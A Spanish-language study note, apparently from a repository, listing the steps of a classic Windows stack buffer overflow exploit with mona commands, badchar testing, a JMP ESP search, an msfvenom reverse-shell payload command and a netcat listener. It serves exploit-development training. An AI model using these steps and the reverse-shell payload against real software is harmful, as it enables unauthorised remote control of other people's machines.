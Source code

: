 # Estrucutra básica del BoF en Windows
---
_Esta es una estructura básica de los pasos a seguir en Windows a la hora de explotar un Buffer Overflow básico y de los antiguos._

1. Crear un padding muy grande y ver si hay buffer overflow.
2. Tomar el control de EIP para ello:
 - !mona pattern_create 1000 (immunity) - mona.mona ("pattern_create 1000") (x32dbg)
 - Ver EIP y ver que elementos tiene.
 - Hacer una resta a mano comparando donde empieza y donde acaba // utilizar mona:
   - !mona pattern_offset xxxxxx - mona.mona ("patern offset xxxx")
3. Una vez tenemos el control de EIP, sacaremos los badchars. (Para que se guarde en logs: "!mona config -set workingfolder c:\logs\%p").
 - !mona bytearray -cpb "\x00" --> copiamos y pegamos en el script
 - Ejecutamos de nuevo el programa.
 - Lo vemos manualmente: Seccion de Hexdump --> Go to --> ESP --> Vemos cuando se rompe la cadena de bytearray
 - Con mona: "!mona compare -f C:\logs...bytearray.bin -a ADDRESS" --> Nos indica los badchars
 - Volvemos a generar el bytearray eliminando los badchars y volvemos a empezar hasta que no quede ninguna.
4. Buscaremos en el programa un JMP ESP que no tenga ASLR.
 - !mona jmp -r esp (immunity) - mona.mona ("jmp -r esp") (x32dbg)
 - Comprobamos que la direccion que seleccionamos no contiene badchars.
 - La colocamos en la direccion de retorno, que es EIP, el cual hemos controlado anteriormente.
5. Generar o buscar una shellcode/reverse shellcode.
````
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=4444 EXITFUNC=thread -b '\x00\x0a\x09\x1a' -a x86 --platform Windows -f python -v shellcode_reverse_shell
--smallest
````
6. Nos ponemos a la escucha:
````
 nc -lvnp 4444 // use exploit/multi/handler
````
7. Ejecutamos y... **FIN**
